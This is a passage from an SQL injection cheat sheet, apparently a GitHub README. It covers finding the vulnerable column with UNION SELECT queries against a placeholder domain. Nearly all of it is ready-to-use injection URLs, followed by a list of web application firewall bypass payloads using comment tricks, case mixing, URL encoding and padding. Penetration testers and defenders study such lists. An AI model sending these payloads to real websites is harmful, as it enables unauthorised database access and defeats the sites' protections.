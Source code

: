 This means there are only 4 columns. Now we have to find which one of these 4 columns have information.

## Find the vulnerable column where information are stored using 'UNION SELECT' query

[photo](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MSSQL%20-%20Error%20Based%20SQLi/README.md#find-the-vulnerable-column-where-information-are-stored-using-union-select-query)

Using a simple query, we determine which of the 4 columns reflect our input using. Only 1 of these payloads will run without **syntax error**. _NOTE: If none worked, try the same payloads, but remove the quote (') after number 1._

`http://domain.com/index.php?id=1' Union Select 1,2,3,4-- -`  
`http://domain.com/index.php?id=-1 Union Select 1,2,3,4-- -`  
`http://domain.com/index.php?id=-1' Union Select 1,2,3,4-- -`  
`http://domain.com/index.php?id=1'+UNION+ALL+SELECT+null,null,null,null--+-`  
`http://domain.com/index.php?id=1' Union Select null,2,3,4-- -`  
`http://domain.com/index.php?id=1' Union Select 1,null,3,4-- -`  
`http://domain.com/index.php?id=1' Union Select 1,2,null,4-- -`  
`http://domain.com/index.php?id=1' Union Select 1,2,3,null-- -`  
`http://domain.com/index.php?id=.1' Union Select 1,2,3,4-- -`  
`http://domain.com/index.php?id=-1' div 0' Union Select 1,2,3,4-- -`  
`http://domain.com/index.php?id=1' Union Select 1,2,3,4 desc-- -`  
`http://domain.com/index.php?id=1' AND 0 Union Select 1,2,3,4-- -`

Website must successfully load and we will see a number (in our case between 1-4)

- If the queries will not work, try the following payloads until you see the number:

`http://domain.com/index.php?id=1+UNION+SELECT+1,2,3,4--+-`  
`http://domain.com/index.php?id=1+UNION+ALL+SELECT+1,2,3,4--+-`  
`http://domain.com/index.php?id=1+UNION+ALL+SELECT+1,2,3,4--+-`  
`http://domain.com/index.php?id=1+UNION+ALL+SELECT+null,null,null,null--+-`  
`http://domain.com/index.php?id=1 UNION(SELECT(1),(2),(3),(4))-- -`  
`http://domain.com/index.php?id=1 +Union Distinctrow Select+1,2,3,4-- -`  
`http://domain.com/index.php?id=1+UNION+ALL+SELECT+13371,13372,13373,13374--+-`  
`http://domain.com/index.php?id=1+UNION+ALL+SELECT+1%2c2%2c3%2c4--+-`  
`http://domain.com/index.php?id=1 Union Select CHAR(49),CHAR(50),CHAR(51),CHAR(52)-- -`  
`http://domain.com/index.php?id=1 %23%0AUnion%23aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%0ASelect%23%0A1,2,3,4-- -` (buffer by a * 300)  
`http://domain.com/index.php?id=Union Select * from (select 1)a join(select 2)b join(select 3)c join(select 4)d-- -`

```
- If the queries still doesn't show the vulnerable column number, it is probably the WAF blocking our queries. Let's try injection payloads which bypass it.   

http://domain.com/index.php?id=1 /*!50000%55nIoN*/ /*!50000%53eLeCt*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 %55nion(%53elect 1,2,3) 1,2,3,4-- -  
http://domain.com/index.php?id=1+union+distinctROW+select+1,2,3,4--+-  
http://domain.com/index.php?id=1+ #?uNiOn + #?sEleCt 1,2,3,4-- -  
http://domain.com/index.php?id=1 + #?1q %0AuNiOn all#qa%0A#%0AsEleCt 1,2,3,4-- -  
http://domain.com/index.php?id=1 /*!%55NiOn*/ /*!%53eLEct*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 +un/**/ion+se/**/lect 1,2,3,4-- -  
http://domain.com/index.php?id=1 +?UnI?On?+'SeL?ECT? 1,2,3,4-- -  
http://domain.com/index.php?id=1+(UnIoN)+(SelECT)+1,2,3,4--+-  
http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 %55nion(%53elect 1,2,3,4)-- -  
http://domain.com/index.php?id=1 /**//*!12345UNION SELECT*//**/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 /**//*!50000UNION SELECT*//**/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 /**/UNION/**//*!50000SELECT*//**/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 /*!50000UniON SeLeCt*/ 1,2,3,4-- -  
```